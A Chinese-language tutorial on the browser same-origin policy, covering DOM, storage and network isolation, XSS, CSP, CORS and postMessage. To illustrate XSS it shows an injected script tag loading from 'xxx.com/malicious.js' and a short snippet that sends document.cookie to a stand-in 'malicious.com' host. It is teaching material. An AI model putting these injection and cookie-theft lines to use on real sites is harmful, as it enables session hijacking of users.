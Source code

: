 


# 什么是同源策略
要了解什么是同源策略，我们得先来看看什么是同源。

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。比如下面这两个 URL，它们具有相同的协议 HTTPS、相同的域名`time.geekbang.org`，以及相同的端口 443，所以我们就说这两个 URL 是同源的。
```
https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
```
浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在 DOM、Web 数据和网络这三个层面。

## 第一个，DOM 层面
同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。

打开第一个网页，然后再从第一个网页中打开另外一个页面。由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的 DOM，比如将第一个页面全部隐藏掉，代码如下所示：
```js
{
  let pdom = opener.document
  pdom.body.style.display = "none"
}
```
该代码中，对象`opener`就是指向第一个页面的`window`对象，我们可以通过操作`opener`来控制第一个页面中的 DOM。

我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的 DOM，将页面隐藏了。

不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作 DOM 了。
## 第二个，数据层面
同源策略限制了不同源的站点读取当前站点的`Cookie、IndexDB、LocalStorage`等数据。由于同源策略，我们依然无法通过第二个页面的`opener`来访问第一个页面中的`Cookie、IndexDB 或者`LocalStorage`等内容。你可以自己试一下，这里我们就不做演示了。
## 第三个，网络层面
同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。
# 安全和便利性的权衡
我们了解了同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击。
## 1. 页面中可以嵌入第三方资源
Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

比如，恶意程序在 HTML 文件内容中插入一段 JavaScript 代码：
```html
<script src="http://xxx.com/malicious.js"></script>
```

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如`Cookie、IndexDB、LoacalStorage`等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：
```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```
在这段代码中，恶意脚本读取`Cookie`数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的`Cookie`信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。通过这些手段就可以大大减少 XSS 攻击。
## 2. 跨域资源共享和跨文档消息机制
默认情况下，如果打开第一个页面，在第一个页面中通过 XMLHttpRequest 或者 Fetch 来请求第二个页面中的资源，这时同源策略会阻止其向第二个页面发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

如果两个页面不是同源的，则无法相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过`window.postMessage`的 JavaScript 接口来和不同源的 DOM 进行通信。
# 总结
同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：
* 页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
* 使用 XMLHttpRequest 和 Fetch 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
* 两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。